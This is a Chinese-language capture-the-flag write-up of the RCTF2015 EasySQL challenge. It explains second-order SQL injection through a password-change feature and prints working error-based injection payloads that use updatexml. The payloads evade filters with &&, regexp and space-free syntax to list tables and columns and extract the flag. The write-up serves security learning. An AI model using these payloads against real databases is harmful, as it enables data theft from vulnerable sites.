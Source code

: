 # \[RCTF2015]EasySQL

## \[RCTF2015]EasySQL

## 考点

* 二次注入
* 报错注入
* `&&`绕过`and`
* `regexp`绕过`=`和`like`
* 处理过滤空格

## wp

有登录注册功能，注册页面，试了一下，`username` 和 `email` 处有过滤，输入`aaaa'`和`aaaa\`直接提`示invalid string!`

直接 fuzz 一下哪些字符被禁了

![](../.gitbook/assets/rctf2015\_ezsql\_2.png)

注册成功之后，有一个修改密码的功能，这里的考点应该就是二次注入。二次注入就是它在存入数据库时进行了特殊字符的处理，但是在修改密码这里，从数据库中读取出来时，没有对数据处理

注册用户名 `aaaa"` ，在修改密码时有个报错的回显

![](<../.gitbook/assets/image (15).png>)

可以判断注册的语句如下

```sql
INSERT INTO users(name,pwd,email) VALUES (waf(username),md5(password),waf(email))
```

修改密码的语句如下

```sql
update users set pwd="newpass" where name="username" and pwd="oldpass"
```

可以考虑报错注入

`username=bbbb"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#`

得到回显`XPATH syntax error: ':article,flag,users'`

试了一下发现flag 不在 flag 表中，`username=bbbb"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#`，提示`XPATH syntax error: ':name,pwd,email,real_flag_1s_her'`，没有显示全

这时候可以考虑`reverse()`函数，或者使用`&&`绕过`and`，`regexp`绕过`=`和`like`

使用`username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))),1))#`，得到`XPATH syntax error: ':real_flag_1s_here'`

然后读取就可以了

```
username=bbbb"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#
username=bbbb"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('f'))),1))#
```
